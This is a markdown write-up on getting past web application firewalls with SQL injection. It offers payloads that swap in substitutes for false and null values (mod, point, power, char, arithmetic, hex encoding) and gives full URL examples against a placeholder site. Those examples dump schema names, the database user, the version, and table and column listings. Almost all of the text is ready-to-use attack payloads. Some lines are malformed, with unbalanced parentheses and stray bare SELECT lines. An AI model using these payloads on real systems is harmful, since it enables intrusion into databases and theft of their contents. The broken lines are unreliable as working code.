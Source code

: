```yaml
---
title: Case study on SQL Injection WAF bypassing via SQL Functions
updated: 2021-09-05 13:55
---
```


## The traditional way using And 0

The ordinary usage of And 0 is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.

```
And 1=0
And false
And 0
And 1
And 50=60
Any number that are not the same will equal to (0, false, null)
```

## The alternative way of using And 0

The following methods are newly discovered queries which are supported by it’s respective SQL, as a new way of declaring false, null or 0 value(s).

1) Any **Mathematical/Arithmetic** or **Logical Problem** that equal to 0

```
And 1*0
And 1-1
And 0/1
```
For example:  
http://website.com/index.php?id=1’ and 1*0 order by 10--

2) Using **MOD()**

```
SELECT mod(10, 2);
```

The used mod() Function will output to 0

For example:  
http://website.com/index.php?id=1 and mod(29,9) Order by 10--

3) Using **POINT()**

```
SELECT point(29, 9);
```
For example:  
http://website.com/index.php?id=1 and point(29,9) Order by 10--

4) Using **POWER()**

```
SELECT power(5,5);
```
For example:  
http://website.com/index.php?id=1 and power(5,5) Order by 10--

## Illegal parameter data types

Error notification Illegal parameter data types INT and row for operation '=', is related to the data type of column included in the condition. The problem can occur because of many reasons.

1) For operation **MOD**
```
% = Modulo
```
For example:
http://website.com/index.php?id=1 % point(29,9) Order by 10--

2) For operation **&**
```
& = Bitwise And
&& = Logical And
```
For example:  
http://website.com/index.php?id=1 && point(29,9) Order by 10--

3) For operation **OR**
```
| = Bitwise OR
|| = Logical OR, sometimes use for Concatanation
```
For example:  
http://website.com/index.php?id=1 || point(29,9) Order by 10--

## The traditional way of using Null

The ordinary usage of Null is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.
```
Union Select null, null, null, null
```

## The alternative way of using Null

1) Using **0**
```
UNION SELECT 0,0,0,0
```
For example:  
http://website.com/index.php?id=1 div **0** Union Select **0**,**0**,**0**,**0** (SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**0**,**0**--+"

2) Using **false**
```
UNION SELECT false,false,false,false
```
For example:  
http://website.com/index.php?id=1 div **false** Union Select **false**,**false**,**false**,**false**,SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**false**--+

3) Using char()
```
UNION SELECT char(null),char(null),char(null),char(null)
UNION SELECT char(false),char(false,char(false),char(false)
UNION SELECT char(0),char(0),char(0),char(0)
UNION SELECT char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c)
```
For example:  
http://website.com/index.php?id=1 div **char(false)** Union Select "**char(false)** div **char(false)** Union Select **char(false)**,**char(false)**,**char(false)**,**char(false)**,concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User ::',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),**char(false)**--+",**char(false)**,**char(false)**,**char(false)**,**char(false)**,**char(false)**--+

4) Using **Arithmetic** or **Logical Operator**
```
UNION SELECT (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
UNION SELECT 34=35,34=35,34=35,34=35
```
For example:  
```
http://website.com/index.php?id=1 div (0*1337-0) Union Select "(0*1337-0) div (0*1337-0) Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0),concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database ::',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),(0*1337-0)--+",(0*1337-0),(0*1337-0), (0*1337-0),(0*1337-0),(0*1337-0)--+
```

## Bypassing Static Web Application Firewall with 0xHEX values

Since 0xHEX values are accepted and widely used in SQL Queries and Injection payloads, it is a great way to bypass static-based Firewalls. Using this technique, it is possible to avoid using words such as **NULL**, **false**, or ‘ (single quotes). Below are existing payload, but their respective values are converted to 0xHEX format.

```
SELECT
SELECT
SELECT
SELECT
CHAR(NULL); → SELECT CHAR(0x4e554c4c);
CHAR(0) → SELECT CHAR(0x30);
MOD(29, 9); → SELECT MOD(0x3239, 0x34);
POINT(29, 9); → SELECT POINT(0x3239, 0x39);
```
